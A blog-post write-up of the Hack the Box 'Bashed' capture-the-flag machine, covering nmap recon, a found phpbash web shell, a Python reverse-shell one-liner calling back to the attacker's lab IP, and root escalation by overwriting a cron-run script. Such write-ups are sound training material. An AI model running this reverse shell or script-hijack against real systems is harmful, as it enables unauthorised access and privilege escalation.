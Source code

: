 ```yaml
---
layout: post
title: Hack the Box - Bashed
subtitle: Writeup for Bashed CTF - Easy
#cover-img: /assets/img/path.jpg
#thumbnail-img: /assets/img/thumb.png
#share-img: /assets/img/path.jpg
tags: [htb, writeup]#
---
```


Today I'll do a small quick writeup on the [Bashed](https://www.hackthebox.eu/home/machines/profile/118) Hack the Box machine. This was an Easy, but quite interesting box. Let's get on with it!

## Recon

As always, let's start with nmap

```console
nmap -sV -sC -oN bashed.nmap bashed.htb
```

```console
# Nmap 7.80 scan initiated Mon Oct 19 13:27:40 2020 as: nmap -sV -sC -oN bashed.nmap bashed.htb
Nmap scan report for bashed.htb (10.10.10.68)
Host is up (0.045s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 19 13:27:49 2020 -- 1 IP address (1 host up) scanned in 9.62 seconds
```

Does not seem to be much open, just an Apache on port 80 serving PHP files

## Web port

On the web we can find a post explaining that [phpbash](https://github.com/Arrexel/phpbash) is installed on this machine. This is a direct reverse shell, so the obvious step to get our initial foothold is to find its path.

![Site on 80](/assets/img/2020-10-21-18-47-56.png)

After launching gobuster, we get that the reverse shell is at the following path: `http://bashed.htb/dev/phpbash.php`. (Sorry I forgot to write down the exact command.)

![webshell](/assets/img/2020-10-21-18-52-17.png)

There we can run a basic python reverse shell to our machine. Do not forget to set up nmap on our host!

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.33",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Privilege escalation

If we check with sudo we can see that we can run any comand as the user `scriptmanager`

```console
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

```console
$ sudo -u scriptmanager python -c 'import pty; pty.spawn("/bin/sh")'
$ whoami
whoami
scriptmanager
```

or also `sudo -u scriptmanager bash -i`

There is a folder in `/scripts` that has a python script that is being run as sudo every minute (we can see that by looking at the created file timestamp and permissions). We can modify `test.py` since we have write permissions on this folder, wait a minute and our code will be run as root!

```bash
echo "import os; os.system('cp /root/root.txt /scripts && chmod 777 /scripts/root.txt ');" > test.py
```

## Conclusions

This was a quick and easy machine! I am aware that this was not the best writeup, since the notes i took were not with doing this in mind. I hope the next one is way better.
